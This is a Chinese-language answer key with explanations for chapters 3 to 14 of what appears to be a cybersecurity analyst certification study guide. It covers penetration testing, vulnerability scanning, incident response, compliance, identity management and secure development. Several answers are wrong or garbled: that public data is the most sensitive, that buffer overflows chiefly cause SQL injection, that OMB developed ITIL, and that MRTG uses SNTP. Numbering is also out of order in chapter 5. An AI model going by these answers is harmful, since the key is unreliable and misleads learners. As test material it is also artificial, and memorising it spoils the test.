8.  C. 802.1x 解决方案可应用于无线和有线网络，并包含三个组成部分：
    *   客户端（Supplicant）：请求访问网络的用户或设备
    *   身份验证者（Authenticator）：客户端尝试通过其访问网络的设备
    *   身份验证服务器（Authentication server）：执行认证的集中设备

9.  B. 数据包仅与访问列表（ACL）行进行比较，直到找到匹配项为止。一旦匹配了访问列表某行的条件，就会对该数据包采取操作，不再进行后续比较。

10. A. 注意，森林（forests）由树（trees）组成，树由域（domains）组成，域由组织单元（OUs）组成。用户和计算机对象包含在 OU 对象中。没有分支对象。

## 第 4 章

### “我已经认识这些了吗？”测验

1.  C. 执行渗透测试的步骤如下：
    步骤 1。记录有关目标系统或设备的信息。
    步骤 2。收集针对目标系统或设备的攻击方法相关信息。这包括执行端口扫描。
    步骤 3。识别目标系统或设备的已知漏洞。
    步骤 4。对目标系统或设备执行攻击，以获取用户和特权访问。
    步骤 5。记录渗透测试结果并向管理层报告发现，并提供修复措施建议。

2.  测试团队通过公开信息获得有关网络系统和设备的有限知识。组织的安全团队知道攻击即将到来。这要求测试团队投入更多努力，且测试团队必须模拟真实攻击。

3.  在零知识测试中，测试团队不获得有关组织网络的任何知识。测试人员可以使用他们所掌握任何手段来获取有关组织网络的信息。这也被称为封闭测试或黑盒测试。

4.  C. 介入规则（rules of engagement）不涵盖补偿措施。

5.  A. 蓝队作为网络防御团队，红队的尝试攻击测试了蓝队应对攻击的能力。它也作为真实攻击的演练。这包括记录数据、使用 SIEM、收集威胁情报信息以及执行流量和数据流分析。

6.  A. 沙箱（Sandboxing）是一种技术，用于在安全环境中运行可能的恶意程序，使其不会感染本地系统。

7.  B. 必须尝试建立威胁实现的概率以及如果发生对组织产生的影响。

### 复习题

1.  B. 渗透测试（通常称为 pen test）旨在模拟对系统、网络或应用程序的攻击。其价值在于能够发现可能未被注意到的安全漏洞。它与漏洞测试的区别在于，它试图利用漏洞，而不仅仅是识别漏洞。

2.  B. 执行渗透测试的步骤如下：
    步骤 1。规划与准备
    步骤 2。信息收集与分析
    步骤 3。漏洞检测
    步骤 4。渗透尝试
    步骤 5。分析与报告
    步骤 6。清理

3.  C. 在目标测试中，测试团队和组织安全团队都获得了有关网络和将要发生的测试类型的最大信息。这是最容易完成的，但无法提供组织安全的全景。

4.  B. 在部分知识测试中，测试团队获得了有关组织网络的公开知识。此类测试可能会设定边界。

5.  B. 测试范围包括时间线，还包括包含在测试中的所有设备列表，以及对将使用的所有测试方法的描述。

6.  A. 通过使用沙箱工具，你可以执行恶意软件执行文件而不允许这些文件与本地系统交互。

7.  A. 研究恶意软件的一种方法是设置隔离机（sheep dip computer）。这是一个与其他系统隔离的系统，用于分析可疑文件和消息中的恶意软件。

8.  A. 可信工厂（Trusted Foundry）是国防部（DoD）的一项计划，用于识别“信任供应商”并确保“信任链”。信任的供应链从信任的设计开始，持续到信任的光罩、封装/组装和测试服务。

9.  A. 指纹（Fingerprinting）或哈希（Hashing）是指使用哈希算法将大型文档或文件还原为字符串的过程，用于验证文件的完整性（即文件是否发生了任何变化）。为了使其有效，哈希值必须在软件或文件已知完整性时进行计算（例如在发布时）。

10. B. 通常，主题专家通过对所有风险的发生概率和影响进行分级来创建风险评估矩阵。这有助于将资源优先应用到最关键的漏洞上。

## 第 5 章

### “我已经认识这些了吗？”测验

1.  B. 建立漏洞管理过程的步骤如下：
    步骤 1。识别需求。
    步骤 2。建立扫描频率。
    步骤 3。配置工具根据规范执行扫描。
    步骤 4。执行扫描。
    步骤 5。生成报告。
    步骤 6。执行修复。
    步骤 7。执行持续扫描和监控。

2.  D. 机密数据不应在公司外部，但在公司内部可以。

3.  D. 资金限制总是存在的，但不应决定扫描频率。

4.  B. 有凭据扫描（credentialed scan）是由具有被扫描主机权限的人执行的，而无凭据扫描是由缺乏这些权限的人执行。

5.  A. 代理扫描具有以下特征：
    *   它们可以从断开连接或 DMZ 中的机器获取信息。
    *   它们适用于带宽有限的远程地区。
    *   它们对网络连接的依赖性较低。
    *   代理扫描和部署基于在中央控制台上定义的策略。

6.  A. 相反，你应该对环境进行测试，并采取手术方式进行扫描，而不是使用散弹枪式的、一次性到位的方法。

7.  B. 技术报告最详尽，技术性最高。它们可能不适合安全知识较低的接收者。

8.  D. 在进行漏洞评估时，风险评估矩阵使用关键性和实施难度作为两个轴。

9.  D. 相反，持续监控计划可以减少系统和应用程序维护的成本。

10. C. 公共数据是公司使用的最敏感的数据，其泄露造成的伤害最小。

1.  C. 为访客提供的互联网访问对于维持业务至关重要。

9.  B. 执行扫描的高级步骤
    步骤 1. 向扫描中添加 IP 地址。
    步骤 2. 选择扫描设备（硬件或软件传感器）。
    步骤 3. 选择扫描选项。
    步骤 4. 开始扫描。
    步骤 5. 查看扫描状态和结果。

10. C. 趋势报告描绘了工具根据其过去的扫描结果对评估的风险水平随时间推移的变化。

## 第 6 章

### “我是否已经学过这个了？”测验

1.  A. 插件类似于定期向个人计算机的病毒防护程序中添加和更新的病毒定义文件。为了识别特定的漏洞，需要合适的插件。

2.  C. 误报（False positive）是指扫描器识别出一个漏洞，但实际上并不存在该漏洞。虽然这很烦人，但这种错误比漏报（False negative）要好。当发生漏报时，现场确实存在一个漏洞，但扫描器没有将其识别出来。

3.  B. 在某些情况下，你会发现产品中存在某些漏洞无法消除或缓解——至少在短期内无法如此。在这种情况下，你可能想为该漏洞创建一个异常，这样你就不会继续用这些数据填充扫描日志。

4.  B. 从软件开发的角度来看，维护钩子（maintenance hook）是构建在代码中的一组指令，允许了解“后门”的人使用这些指令来连接、查看和编辑代码，而无需使用标准的访问控制。在许多情况下，维护钩子用于让供应商更容易地为客户提供支持。在其他情况下，它们旨在协助测试和跟踪产品的活动，并且在之后不会删除。

5.  D. 检查时间/使用时间（Time-of-check/time-of-use attacks）试图利用系统完成常见任务时发生的事件序列。这些攻击依赖于对多处理系统中特定系列事件发生时依赖关系的了解。通过尝试插入到事件之间并引入更改，黑客可以获得对结果的控制。

### 复习题

1.  B. 跨站点脚本（XSS）发生在攻击者发现网站漏洞并将恶意代码注入 Web 应用程序时。许多网站允许并将用户输入整合到网页中以便自定义。如果 Web 应用程序没有正确验证这些输入，可能会发生两种情况之一：文本可能会在页面上渲染，或者当其他人访问该网页时可能会执行脚本。

2.  A. 与 XSS 不同，在 CSRF 中，攻击者利用的是网站对浏览器的信任，而不是反过来。网站认为请求来自用户的浏览器，并且实际上是由用户发出的。然而，该请求被植入了用户的浏览器中，很可能是因为用户遵循了已经包含要注入代码的 URL。

3.  B. 使用点击劫持攻击（click-jack attack）的黑客在看起来合法的页面上方构建透明的页面或框架，诱导用户点击某些内容。当他点击时，他实际上在点击不同的 URL。在许多情况下，该网站或应用程序可能会引导用户输入攻击者稍后使用的凭据。

4.  B. 虽然验证输入可以防止所有其他选项，但维护钩子无法通过这种方式防止。它们必须被移除或禁用。

5.  C. 缓冲区（Buffers）是用于存储信息的系统内存。缓冲区溢出发生在提交的数据量大于缓冲区能够处理的量时的攻击。通常，这种攻击的发生是由于应用程序或操作系统代码编写得不当。这可能导致恶意代码的注入，主要是拒绝服务（DoS）攻击或 SQL 注入。

6.  整数溢出发生在数学运算尝试创建一个对于可用空间过大的数值时。处理器的寄存器宽度决定了可以表示的值范围。此外，程序可能会假设变量始终包含正值。如果变量是有符号整数类型，溢出可能会导致其值回绕变成负数。同样，从一个小的无符号值中减去数字可能会使其回绕到一个很大的正值，这可能也是意外之外的行为。

7.  推断（Inference）发生在某人访问某一层的信息并允许其推断出另一层信息时。推断的主要缓解技术是多实例化（polyinstantiation），即使用新对象中不同的值从另一个对象开发出详细版本。它防止了低级数据库用户推断出高层数据的存在。

8.  聚合（Aggregation）被定义为同一敏感性级别的信息单元进行组装或编译，导致产生的数据整体的敏感性比单个组件更高。因此，你可以将聚合视为实现与推断相同目标的不同方式，即获取无法访问的级别的数据信息。

9.  污染（Contamination）是将一个敏感性或知情级别的数据与另一个级别的数据混杂或混合。适当实施安全级别是防御这些问题的最佳方法。

10. 一种称为 MAC 地址溢出攻击的攻击会导致交换机的 MAC 地址表填满不存在的 MAC 地址。使用免费工具，黑客可以向交换机发送成千上万不存在的 MAC 地址。交换机只能为表分配特定数量的内存，在某个时刻，它就会被虚假的 MAC 地址充满。这阻止了有效设备在 MAC 地址表中创建内容地址内存（CAM）条目（MAC 地址）。当这种情况发生时，交换机接收的所有合法流量都会泛洪到每个端口。

## 第 7 章

### “我是否已经学过这个了？”测验

1.  C. 在网络安全领域，已知威胁是通过杀毒引擎容易识别的威胁。而未知威胁是那些没有签名且可被识别的潜伏威胁。

2.  C. 可容忍时间（MTD）是指发生灾难或中断时单个资源或功能运行所需的最大时间。这也被称为最大中断时间。

3.  A. 数字证据提交法庭时的关键问题之一是它是否被更改过。写阻塞器（write blocker）允许对存储设备进行只读访问且不损害完整性。

4.  B. 高级持续威胁（APT）是一种针对特定实体并长时间进行的黑客活动。大多数情况下，APT 的受害者是大型公司或政府。攻击者通常是一个组织。

5.  C. 数据完整性指的是数据的准确、完整健全。完整性服务的目标之一是保护数据的完整性，或者提供一种发现数据损坏或未经授权更改的方法。

6.  C. 哈希工具使用哈希算法创建一个值，稍后用于验证信息未更改。常用的算法是消息摘要算法5（MD5）和安全哈希算法（SHA）。

### 复习题

1.  A. 未知威胁是那些没有签名的潜伏威胁。在某些情况下，未知威胁实际上是循环利用的旧威胁。由于安全产品对威胁签名的内存有限，供应商必须选择最新的攻击签名。因此，新产品可能缺少旧攻击签名，这实际上允许旧已知威胁重新进入未知类别。

2.  B. 在许多情况下，环境中发现的漏洞没有当前的修复程序或补丁。在这种情况下，被称为零日漏洞。防止零日攻击的最佳方法是通过实施高效的设计、编码和测试来编写无 Bug 的应用程序。

3.  B. 平均修复时间（MTTR）是发生灾难或中断时修复单个资源或功能所需的平均时间。

4.  D. 在为资产附加价值时，产品的广告成本并不是考虑因素。可以使用以下因素来确定资产的价值：
    *   所有者的价值
    *   开发或获取资产的成本
    *   维护资产的成本
    *   资产损失将造成的损害
    *   竞争对手为资产支付的代价
    *   资产损失将导致的罚款

5.  B. 个人身份识别信息（PII）是任何可以单独或与其他信息结合以识别个人的数据。组织收集的任何 PII 都必须以最强的方式受到保护。

PII（个人身份信息）包括姓名、身份标识码（包括驾照号和社会安全号码）、出生日期、出生地、生物识别数据、财务账户号（包括银行账户和信用卡号）以及数字身份（包括社交媒体名称和标签）。

6.  B. 合同不被视为知识产权。知识产权包括以下内容：
    *   专利
    *   商业秘密
    *   商标
    *   著作权
    *   软件盗版和许可问题
    *   数字版权管理 (DRM)

7.  D. 商标可确保标识产品或组织的符号、声音或表达受到保护，防止被其他组织使用。商标使产品或组织被普通公众所认可。

8.  C. 应使用数字单反相机（Digital SLR）而非保罗兰相机来记录证据。

9.  证据监管链表单记录了谁处理了证据、每个人处理证据的时间，以及处理人员拥有证据的顺序。它用于提供关于证据处理和存储过程的完整记录。

10. B. 应急响应系统中的步骤可以包括以下内容：
    步骤 1. 检测 (Detect)。
    步骤 2. 响应 (Respond)。
    步骤 3. 报告 (Report)。
    步骤 4. 恢复 (Recover)。
    步骤 5. 修复 (Remediate)。
    步骤 6. 审查 (Review)。

## 第 8 章

### “我已经认识这些了吗？”测试

1.  人力资源部门在创建应急响应程序中的作用是执行以下工作：
    *   为那些将聘佣到涉及应急响应岗位的人员编写职位描述。
    *   制定政策和程序，以支持辞退被发现从事不当或非法活动的员工。

2.  C. 利益相关者之间发生的所有通信应使用安全的通信过程，以确保敏感信息不被泄露或被嗅探。务必遵循法律要求，并对这些通信使用强力加密机制。

3.  信标（Beacon）是指以固定间隔离开网络的流量。此类流量可能由受攻击的主机产生，这些主机试图与攻击主机的恶意方进行通信（或“回家”）。信标是僵尸网络或点对点恶意病毒感染的网络相关迹象之一。

4.  意外的入站通信不是应用程序受攻击的指标。任何意外的出站流量都应该经过调查，无论是通过网络监控发现的还是通过监控主机或应用程序发现的。对于应用程序而言，这可能意味着数据正在传回恶意个人。

5.  Ping 扫描（Ping sweeps）使用 ICMP 通过 ping 已知网络中的 IP 地址来识别所有活动主机。所有响应的设备都是处于运行状态的。

6.  C. 只有在发生犯罪时，你才需要涉及执法部门。

7.  C. 虽然处理器消耗是主机相关的症状，但流量峰值和信标行为被认为是网络症状，而内存溢出是应用程序相关的症状。

### 复习题

1.  B. 法律部门的作用是执行以下工作：
    *   审查保密协议，以确保支持应急响应工作。
    *   编写用于联系可能受影响的站点和组织的文档措辞。
    *   评估站点对非法计算机活动的法律责任。

2.  D. 管理的主要作用是全力支持 IR（应急响应）团队的所有工作，并确保支持贯穿整个组织。无疑，对 IR 过程的认可同样重要，因为它为该过程提供了合法性，且这种支持应该是一致且不摇晃的。

3.  A. 数据外泄（Data exfiltration）是从设备中窃取数据。任何关于数据丢失或删除的报告都应该经过调查。

4.  D. 受攻击的网络相关症状包括：
    *   带宽消耗
    *   信标行为
    *   不规则的点对点通信
    *   网络上的非法设备
    *   扫描遍历（Scan sweeps）
    *   异常流量峰值

    所有其他选项要么与主机相关，要么与应用程序相关，与网络无关。

5.  A. 端口扫描尝试连接设备上的每个端口，并报告哪些端口是开放的或正在“监听”。

6.  D. 执法部门的专业知识因人而异。虽然计算机物理盗窃等案件可能涉及当地执法部门，但对于更抽象的犯罪和事件，涉及联邦级执法部门可能会获得更好的服务，因为那里有更丰富的技能组合。

7.  A. 每当带宽使用高于正常水平且没有已知合法活动产生此类流量时，你应该怀疑存在产生异常大量流量的安全问题，例如拒绝服务 (DoS) 或分布式拒绝服务 (DDoS) 攻击。

8.  B. 非法接入点（Rogue access points）旨在诱导你的主机连接以进行点对点攻击。

9.  C. 扫描遍历通常发生在攻击之前，但其本身不能证明主机已受攻击。

10. C. 营销部门可以参与以下活动以支持应急响应计划：
    *   创建简报和其他教育材料，用于员工响应培训。
    *   与法律部门协调，就事件的媒体回应对和内部通信进行提前准备。

## 第 9 章

### “我已经认识这些了吗？”测试

1.  A. 二层分段涉及在交换机上部署端口安全。这允许你在局域网或 VLAN 内部进行分段。这可能耗费时间，而且很难确定 IP 子网内的哪些设备需要进行分段。

2.  B. 反向工程可以指通过使用所有设备的日志来追溯事件中的步骤。

3.  C. 清除（Sanitizing）是指通过重写驱动器来消除所有威胁的痕迹。这对于机械硬盘有效，但固态硬盘面临挑战。

4.  D. 应该起草的第一文档是教训报告（lessons learned report）。它讨论了关于事件目前的情况。

5.  C. 安全信息事件管理 (SIEM) 系统不仅收集所有日志，还利用信息对可能的攻击进行推断，并访问所有数据。

6.  B. 隔离设备不是验证阶段的一部分。它是抑制阶段（suppression stage）的一部分。

7.  B. 所有利益相关者都应该收到事件摘要，该文档不应包含过多的术语。

### 复习题

1.  当你在三层进行分段时，你是基于 IP 子网创建边界。这些是局域网或 VLAN。在这一层创建边界涉及在路由器上部署访问控制列表（ACL）。

2.  隔离通常通过阻止所有进出设备的流量或关闭设备接口来实现。这种方法对于单个系统非常有效，但在涉及多个设备时会变得复杂。在这种情况下，分段可能是更明智的方法。

3.  在某些情况下，在数字取证完成之前，不建议关闭设备。许多证据是易失的（例如内存内容），关闭设备将导致丢失这些数据。

4.  大多数固态硬盘供应商都提供了用于擦除驱动器数据的清除命令。安全专业人员应该研究这些命令以确保其有效性。

5.  清除（Clearing）包括移除介质上的数据，无法使用普通的文件恢复技术和工具重构数据。通过这种方法，数据只有使用特殊的取证技术才能恢复。

6.  你应该特别注意更新硬件安全设备（如防火墙、IDS 和 IPS）的固件。如果任何路由器或交换机曾受到攻击，你应该检查软件和固件更新。

7.  通过在系统首次配置时保存系统镜像，你可以使用该镜像更快地重建系统。

8.  许多组织将所有安全日志发送到中心位置。这可以是 Syslog 服务器或安全信息事件管理 (SIEM) 系统。虽然 SIEM 系统收集所有日志并利用信息对可能的攻击进行推断，但 Syslog 服务器无法执行操作。

9.  B. 经验教训练习可能会发现你的 IR（事件响应）计划中的缺陷。如果是如此，应该对其进行适当更新，以反映程序中所需的更改。

10. D. 相反，事件总结报告应该包含需要改进的领域。

## 第 10 章

### “我已经认识这些了吗？”测试

1.  B. HIPAA（《健康保险流通责任法案》），又称为肯尼迪-卡塞鲍法案，影响所有医疗机构、医疗保险公司和医疗保健结算中心。它由卫生与人类服务部民事权利办公室执行。它为存储、使用和传输医疗信息及医疗数据提供了标准和程序。

2.  A. NIST SP 800-53 是由美国商务部 NIST 机构开发的一种安全控制开发框架。SP 800-53 将控制分为三类：技术、运维和管理。每一类都包含多个控制族或类别。

3.  B. 复杂密码类型强制用户包含大小写字母、数字和特殊字符的混合。如今许多组织都将此类类型的密码作为其密码策略的一部分。这种密码类型的优点是极难破解；缺点是更难记忆，且通常更难正确输入。

4.  C. 纠正性控制的实施是为了减少攻击或其他不符合意愿事件的影响。使用纠正性控制可以修复或恢复受攻击的实体。纠正性控制的示例包括安装灭火器、隔离或终止连接、实施新的防火墙规则，以及使用服务器镜像恢复到之前的状态。

5.  B. 安全内容自动化协议（SCAP）是一种使用特定标准来实现自动化漏洞管理、度量和策略合规性评估的方法。NIST SCAP 文件是为满足 FISMA 合规性和 NIST SP 800-53 安全控制测试而编写的。

6.  A. SOC 1 报告侧关注财务报告的内部控制。SOC 1 报告有两种类型：
    *   SOC 1 类型 1 报告：侧关注审计师对数据中心管理层控制、系统和/或服务的设计的准确性和完整性的意见。
    *   SOC 1 类型 2 报告：包含类型 1 内容，以及对特定时间段（通常为六个月到一年）内控制有效性的审计。

### 复习题

1.  A. 2002 年《公共会计改革与投资者保护法案》（更广为人知的《萨班斯-奥克斯尔法案》，SOX）影响任何在美国上市的组织。它控制了组织的会计方法和财务报告，并对执行人员规定了处罚措施甚至监禁。

2.  B. 欧盟创建了“安全港原则”，旨在帮助指导美国组织符合《欧盟隐私原则》。

3.  ISO 27000 是一项关于如何开发和维护信息安全管理系统（ISMS）的安全程序开发标准。27000 系列包含一系列标准，每种标准都解决 ISMS 的特定方面。

4.  ITIL 是由管理和预算办公室在 OMB 循环告 A-130 中开发的一种流程管理开发标准。ITIL 有五本核心出版物：ITIL 服务策略、ITIL 服务设计、ITIL 服务过渡、ITIL 服务运营和 ITIL 持续服务改进。

5.  A. 组合密码（也称为复合密码）使用词典单词的混合，通常是两个不相关的单词。与标准密码一样，它们包含大小写字母和数字。这种密码类型的优点是比标准单词密码更难破解；缺点可能是难以记忆。

6.  B. 密码历史规定了重用密码前必须经过的时间。密码策略通常会记住一定数量之前使用的密码。

7.  B. 在 Linux 中，密码存储在 `/etc/passwd` 或 `/etc/shadow` 文件中。由于 `/etc/passwd` 文件是可以轻松访问的文本文件，你应该确保任何 Linux 服务器都使用 `/etc/shadow` 文件，其中文件的密码可以通过哈希进行保护。

8.  D. 商业企业通常使用四个主要级别对数据进行分类，按敏感性从高到低列出：
    1.  机密 (Confidential)
    2.  私有 (Private)
    3.  敏感 (Sensitive)
    4.  公开 (Public)

9.  D. 威慑性控制阻止或阻碍攻击者。通过威慑性控制，可以在过程早期发现攻击。威慑性控制通常会触发预防性和纠正性控制。威慑性控制的示例包括用户识别与认证、围栏、照明和组织安全策略，如保密协议（NDA）。

10. B. 风险削减是指根据风险分析更改组织响应要素的过程。在组织理解其风险后，必须确定如何处理风险。使用以下四种基本方法处理风险：
    *   风险规避：终止导致风险的活动或选择风险较低的替代方案
    *   风险转移：将风险转移给第三方（包括保险公司）
    *   风险缓解：定义组织可以接受的风险水平，并将风险降低到该水平
    *   风险接受：理解并接受风险水平以及可能发生的损害成本

## 第 11 章

### “我已经认识这些了吗？”测试

1.  A. 基于语境的认证在验证实体之前会考虑多个因素或属性。系统并非简单地依赖凭据的展示，还会查看其他因素，如主体的时间或位置。

2.  B. 偷窥发生在攻击者观察用户输入登录或其他机密数据时。鼓励用户时刻留意谁在观察。实施隐私屏可以确保数据输入不被记录。

3.  C. 多供应商环境安全应用程序系统（SESAME）项目扩展了 Kerberos 的功能以修复其缺陷。SESAME 使用对称和非对称加密来保护交换的数据。SESAME 在每个主机使用信任的认证服务器

4.  D. 协作组织之间的服务提供标记语言（SPML）是一种由结构化信息促进组织（OASIS）开发的交换信息的开放标准。

5.  会话劫持发生在黑客能够识别分配给验证用户的会话 ID 时。确保 Web 服务器生成这些 ID 时是完全随机的。

### 复习题

1.  A. 钓鱼是一种社交工程攻击，攻击者试图获取个人信息，包括信用卡信息和财务数据。这类攻击通常通过建立一个与合法网站非常相似的假网站来实施。用户在假网站上输入数据（包括凭据），导致攻击者捕获任何信息。

2.  B. TEMPEST 项目由美国和英国发起，研究限制发射的方法并对使用的技术进行标准化。任何符合 TEMPEST 标准的设备使用屏蔽材料抑制发射。

3.  C. 开放授权（OAuth）是一种允许用户在不使用凭据的情况下从一个站点共享私有资源的授权标准。它被称为网页的“代车钥匙”。正如代车钥匙允许你停车但不能打开后备箱一样，OAuth 令牌允许客户端应用程序访问用户的数据。这些令牌由授权服务器发布。

4.  D. LDAP 采用客户端/服务器架构，使用 TCP 端口 389 进行通信。如果需要更高级别的安全性能，基于 SSL 的 LDAP 通过 TCP 端口 636 进行通信。

5.  A. 起始记录（SOA）包含有关 DNS 区域权威服务器的信息。

6.  B. TACACS+ 使用 TCP，RADIUS 使用 UDP。

7.  C. 在交叉认证模型中，每个组织都认证其他所有组织都是可信的。这种信任在组织审查彼此的标准时建立。

8.  策略执行点（PEP）是保护主体（用户或应用程序）尝试访问的资源的实体。当它收到来自主体的请求时，它会根据主体的属性、请求的操作、资源以及其他信息创建一个 XACML 请求。

9.  PPP 不是 SPML 的组件。SPML 架构包含三个组件：
    *   请求授权端（RA）：发出配置请求的实体
    *   配置服务提供商（PSP）：响应 RA 请求的实体
    *   配置服务目标（PST）：执行配置的实体

10. B. DHCP 旁听（DHCP snooping）的主要目的是防止对 DHCP 数据库的投毒攻击。这本身其本身不是一种交换机攻击，但其功能之一可以支持动态 ARP 检查（DAI）。它会从受信的 DHCP 服务器创建一种从 IP 地址到 MAC 地址的映射，该映射可用于 DAI 的验证过程。你必须同时实施 DAI 和 DHCP 旁听，因为 DAI 依赖于 DHCP 旁听。

## 第 12 章

### “我学过这些吗？”测验

1.  A. 数据聚合是收集大量数据并根据信息中的某些共同变量以某种方式对其进行过滤和总结的过程。

2.  D. Syslog 条目各部分的含义如下：

    ```
    时间/日期 *May 1 23:02:27.143
    设施 %SEC (安全)
    严重性 6, 信息性：信息性消息

    源 IPACCESSLOGP: 列表 ACL-IPv4-E0/0-IN（访问列表名称）
    动作 许可
    源自 192.168.1.3，端口 1026
    到目的 192.168.2.1，端口 80
    数量 1 个数据包
    ```

3.  A. 在双重控制中，任何一个人都不能执行这两个功能。

4.  B. 质量改进通常使用四步质量模型，被称为戴明循环，或计划-执行-检查-处理（PDCA）循环，它包含四个步骤：
    *   步骤 1 计划（Plan）：确定改进区域并制定正式计划以实施。
    *   步骤 2 执行（Do）：在小范围内实施计划。
    *   步骤 3 检查（Check）：分析实施结果，以确定是否产生了变化。
    *   步骤 4 行动（Act）：如果实施产生了积极变化，则在更大范围内实施。持续分析结果。

5.  B. 有多种类型的报告，每种类型都针对其目标受众量身定制：
    *   技术报告：此报告对发现的所有漏洞提供全面分析，并为网络管理员、安全人员和 IT 经理提供评估网络安全的工具。
    *   变更报告：此报告仅展示与之前任何扫描相比的变化，强调潜在风险、未经授权的活动和安全相关的网络操作。
    *   执行报告：此报告为高级 IT 执行人员设计，提供适中的图表和足够的支持性细节以协助决策。
    *   高级执行报告：此报告提供更多的图表和更少的细节，供非技术决策者演示使用。

### 复习题

1.  B. 分离知识（Split knowledge）规定至少有两个个人只持有执行某功能所需的部分信息。他们必须都在场才能执行该操作。

2.  A. 在这种情况下，你需要一份技术报告。多种类型的报告，针对其目标受众量身定制：
    *   技术报告：此报告对发现的所有漏洞提供全面分析，并为网络管理员、安全人员和 IT 经理提供评估网络安全的工具。
    *   变更报告：此报告展示与之前任何扫描相比的变化，强调潜在风险、未经授权的活动和安全相关的网络操作。
    *   执行报告：此报告为高级 IT 执行人员设计，提供适中的图表和足够的支持以协助决策。
    *   高级执行报告：此报告提供更多的图表和更少的细节，供非技术决策者演示使用。

3.  A. 安全套件是组合成单一工具的安全程序集，例如防病毒软件和防火墙服务的组合。许多安全套件还包括备份服务、家长控制，甚至是提高性能的维护功能。

4.  下游责任（Downstream liability）是指组织通过与其他组织和客户建立伙伴关系而产生的责任。例如，考虑签约的第三方是否具备适当的程序来确保组织的防火墙具有其所需的安全更新。如果黑客随后通过安全漏洞入侵网络并盗取身份，客户可以因疏忽起诉该组织（而不一定起诉第三方）。

5.  C. 尽职调查（Due diligence）和尽责义务（Due care）是两个处理责任的相关术语。

    尽职调查意味着组织了解其面临的安全风险，并已采取合理措施来应对这些风险。尽责义务意味着组织采取了其能够合理采取的所有行动来防止安全问题，或在发生安全漏洞时减轻损害。尽职调查通常紧密相连，但在共同考虑之前必须分别理解。

6.  A. 对称算法使用私钥或秘密密钥，该密钥在双方之间必须保密。每个伙伴都需要一个独立的私钥，且它们必须匹配。

7.  D. 块密码通过将消息划分为长度单元来执行加密。一个 1024 位的消息可以被分为 16 个每个 64 位的块。这 16 个块中的每一个块都由算法公式处理，产生一个单一密文块。

8.  A. 某些算法使用初始化向量（IV）来确保在加密过程中不会产生模式。如果不使用 IV，明文中的重复短语可能会导致相同的密文。攻击者可以利用这些模式来破解加密。

9.  B. 非对称算法的优缺点如下：

    | 优点 | 缺点 |
    |---|---|
    | 密钥分发比对称算法更容易、更容易管理。 | 非对称算法的实现成本更高。 |
    | 密钥管理更容易，因为所有人使用相同的公钥。 | 非对称算法比对称算法慢 1000 到 10000 倍。 |

10. A. 哈希处理不能防止数据篡改，但提供了一种判断数据是否被篡改的方法。

## 第 13 章

### “我学过这些吗？”测验

1.  B. 开发阶段是专门编写使软件运行的代码或指令的阶段。该阶段的重点是严格遵守安全编码规范。

2.  C. 真实用户监控（RUM）作为被动监控的一种，是一种捕获并分析应用程序或网站每次交易的监控方法。与通过定期测试交互来获取洞察的合成监控不同，RUM 消除了猜测，观察用户究竟如何与应用程序交互。

3.  C. OWASP Web 应用安全项目是一个监控攻击（特别是 Web 攻击）的组织。OWASP 持续维护一份十大攻击列表。该组织在全球各分会定期举行会议，提供资源和工具，包括测试程序、代码审查步骤和开发指南。

4.  D. CIS 基准为操作系统、中间件、软件应用程序以及网络设备提供了推荐的技术设置。它们针对必须遵守各种合规计划的企业，如 PCI-DSS（信用卡数据）、SOX（财务报告）、NIST 800-53（联邦信息系统和组织的安全隐私控制）以及 ISO 27000。

### 复习题

1.  A. 软件开发生命周期（SDLC）的目标是提供一个预测性的程序框架，旨在识别功能、成本、可靠性和交付进度的所有需求，并确保最终方案满足这些需求。

2.  C. 在软件开发生命期的设计阶段，组织开发软件如何满足所有功能和安全目标的详细描述。它尝试将软件的内部行为和操作映射到特定需求，以便在实施和测试之前识别出未满足的需求。

3.  A. 应该积极尝试攻击软件，包括缓冲区溢出尝试和拒绝服务（DoS）攻击。此时执行的测试有两个主要目标：
    *   验证测试（Verification testing）：确定是否满足了原始设计规范。
    *   确认测试（Validation testing）：从更高的角度来看，确定是否实现了软件的原始目的。

4.  B. 可以使用两种模糊测试（fuzzing）来识别对故障攻击的敏感性：
    *   变异模糊测试（Mutation fuzzing）：这种类型涉及（盲目地）更改现有输入值。
    *   基于生成的模糊测试（Generation-based fuzzing）：这种类型涉及根据规范/格式从零开始生成输入。

5.  D. 轻量级代码审查通常比正式代码检查开销更小，尽管操作得当，它可以同样有效，并包含以下内容：
    *   旁路审查（Over-the-shoulder）：一名开发者在作者演示代码时，在作者旁边旁视。
    *   邮件传递（E-mail pass-around）：代码提交后，源代码会自动通过电子邮件发送给审查员。
    *   结对编程（Pair programming）：两名作者在同一工作站上共同开发代码。
    *   工具辅助代码审查（Tool-assisted code review）：作者和审查员使用为同行代码审查设计的工具。

6.  A. 回归测试用于在对软件进行更改后验证功能。安全回归测试是回归测试的一个子集，验证更改没有降低应用程序的安全性或引入新的漏洞。

7.  IEEE 创建了标准以促进电气和电子工程、电信、计算机工程及相关学科的技术进步。它不是获取有关安全软件开发指南和建议的最佳来源之一。然而，OWASP、SANS 和 CIS 都是这些指南和建议的良好来源。

8.  A. 合成交易监控（Synthetic transaction monitoring）是一种主动监控类型，通常用于网站和应用程序。它提供了对应用程序可用性和性能的洞察，在用户体验到应用程序行为退化之前警示任何潜在问题。它使用外部代理对应用程序运行脚本化交易。

9.  C. 以下措施可以帮助防止故障攻击：
    *   实施模糊测试以帮助识别问题。
    *   遵循安全编码和项目管理规范。
    *   部署应用级防火墙。

10. B. 拦截代理（Interception proxy）是一种位于 Web 服务器和客户端之间的应用程序，负责来回传递所有请求和响应。在此过程中，它分析信息以测试 Web 应用程序的安全性。

## 第 14 章

### “我已经学过这个？”

1.  C. ArcSight 是一个 SIEM 系统，而不是 IPS（入侵防御系统）。

2.  A. 安全信息和事件管理（SIEM）工具从关键系统的日志文件中接收信息，并集中收集和分析这些数据。SIEM 技术是两个密切相关技术的交汇：安全信息管理（SIM）和安全事件管理（SEM）。

3.  B. 多路由器流量图表（MRTG）使用 SNTP 创建一个显示路由器和交换机接口进出流量的图表。它提供了一种视觉观察这些流量的方法，帮助你通过原始数据更快地识别和解决问题。

4.  C. 漏洞框架（Exploit framework）是一个工具集合，可以针对漏洞发起模块化攻击。这些工具使用漏洞代码数据库，旨在尝试常见攻击，并可以与模块化载荷结合。

5.  D. 哈希算法（Hashing）在法证分析中用于生成文件或镜像的哈希值，该值稍后（例如在法庭上）用于验证文件没有发生任何更改（即确保文件或镜像的完整性）。

### 复习题

1.  A. Sourcefire（现已归 Cisco 所有）基于 Snort 创建了产品，并品牌为 Firepower 设备。这些产品是下一代 IPS（NGIPS）。

